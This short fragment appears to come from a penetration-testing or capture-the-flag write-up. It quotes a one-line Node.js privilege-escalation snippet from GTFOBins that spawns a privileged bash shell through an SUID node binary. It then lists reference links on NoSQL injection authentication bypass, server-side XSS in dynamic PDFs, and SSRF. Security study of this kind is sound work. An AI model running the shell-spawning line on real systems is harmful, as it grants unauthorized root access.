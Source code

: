 ```JS
require("child_process").spawn("/bin/bash", ["-p"], {stdio: [0, 1, 2]})
```

[**SOURCE**](https://gtfobins.github.io/gtfobins/node/#suid)

---
# Referemce List

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#authentication-bypass  
https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf  
https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery  
https://gtfobins.github.io/gtfobins/node/#suid  